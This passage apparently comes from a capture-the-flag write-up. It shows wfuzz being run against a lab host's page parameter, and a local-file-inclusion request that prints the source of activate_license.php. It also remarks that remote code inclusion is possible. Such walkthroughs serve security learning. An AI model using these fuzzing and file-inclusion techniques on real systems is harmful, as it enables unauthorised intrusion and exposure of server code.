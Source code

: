 ```bash
```

Also, since the `readfile` function also accept a URL to a remote server RCI is possible too.

### Fuzzing to search for more pages

Just one thing, at this point this LFI/RCI thing is cool but not much to do with it so maybe there are more pages in the site? Let's fuzz the page parameter a bit:

```bash
┌──(kali㉿kali)-[~]
└─$ wfuzz -c -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt --hw 0 http://10.10.11.154/index.php?page=FUZZ.html 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.154/index.php?page=FUZZ.html
Total requests: 207643

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                             
=====================================================================

000000040:   200        188 L    824 W      11414 Ch    "default"                                                                                           
000000885:   200        72 L     304 W      4144 Ch     "beta"

Total time: 692.0576
Processed Requests: 134823
Filtered Requests: 134821
Requests/sec.: 194.8146
```

That `beta.html` page looks like a form to upload some kind of license key to the server to get access to the beta program. The form issue a POST request to `activate_license.php`. Time to check that file using the LFI we already have:

```php
# http://10.10.11.154/index.php?page=activate_license.php

<?php
if(isset($_FILES['licensefile'])) {
    $license      = file_get_contents($_FILES['licensefile']['tmp_name']);
    $license_size = $_FILES['licensefile']['size'];

    $socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
    if (!$socket) { echo "error socket_create()\n"; }

    if (!socket_connect($socket, '127.0.0.1', 1337)) {
        echo "error socket_connect()" . socket_strerror(socket_last_error()) . "\n";
    }

    socket_write($socket, pack("N", $license_size));
    socket_write($socket, $license);

    socket_shutdown($socket);
    socket_close($socket);
}
?>
```
